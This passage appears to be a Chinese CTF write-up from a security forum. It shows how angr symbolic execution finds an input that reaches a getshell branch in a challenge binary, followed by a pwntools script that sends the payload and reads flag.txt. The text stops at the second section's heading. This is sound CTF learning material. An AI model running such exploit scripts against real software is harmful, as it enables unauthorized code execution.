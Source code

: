 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-266757.htm)

前几天去三亚打了个自动化 Pwn 类型的线下赛（纵横杯）。作为一个 RE 选手，咱也不懂 fuzz 和 AFL，于是就整了一手符号执行来解题。虽然最后没拿到奖，但在准备比赛的过程中还是学到了很多东西，这里总结一下能纯靠符号执行解决的两种题型。

0x00. 题型 1：程序存在逻辑问题，触发错误逻辑 getshell
===================================

本次纵横杯的第 5 题，程序非常简单，伪代码如下：  
![](https://bbs.pediy.com/upload/attach/202103/910514_GY7GC3N5QDM5NNJ.png)  
![](https://bbs.pediy.com/upload/attach/202103/910514_NB4QM36YWH5DJVH.png)  
这题大体是个 while+switch 结构，只要能执行到上图中红框部分即可 getshell。程序非常简单，所以可以直接用 angr 一把梭：

```
import angr
from binascii import b2a_hex
 
def angr_run():
    proj = angr.Project('./bin5')
    state = proj.factory.entry_state()
    simgr = proj.factory.simgr(state)
    simgr.explore(find=0x08048783)
    payload = simgr.found[0].posix.dumps(0)
    print(f'payload={b2a_hex(payload)}')
 
angr_run()

```

输出：  
![](https://bbs.pediy.com/upload/attach/202103/910514_UY6TDQC2YSEVYYV.png)  
因为 angr 和 pwntools 不兼容，所以计算 payload 和 getshell 我分成了两个脚本来写，getshell 脚本：

```
from pwn import *
from binascii import a2b_hex
import re
 
sh = process('./bin5')
sh.sendline(a2b_hex('310a320a'))
sh.sendline('cat flag.txt')
flag = sh.recvall(timeout=5)
flag = re.findall(r'\{(.*?)\}', flag.decode())
print(f'flag=flag{{{flag[0]}}}')

```

输出：  
![](https://bbs.pediy.com/upload/attach/202103/910514_P8862JBADMM4Q4M.png)  
比赛之前也没想到有这种可以直接用 angr 一把梭的题。。。痛失 1w 奖金。

0x01. 简单的路径搜索，考察 AI 对分支的判断
==========================
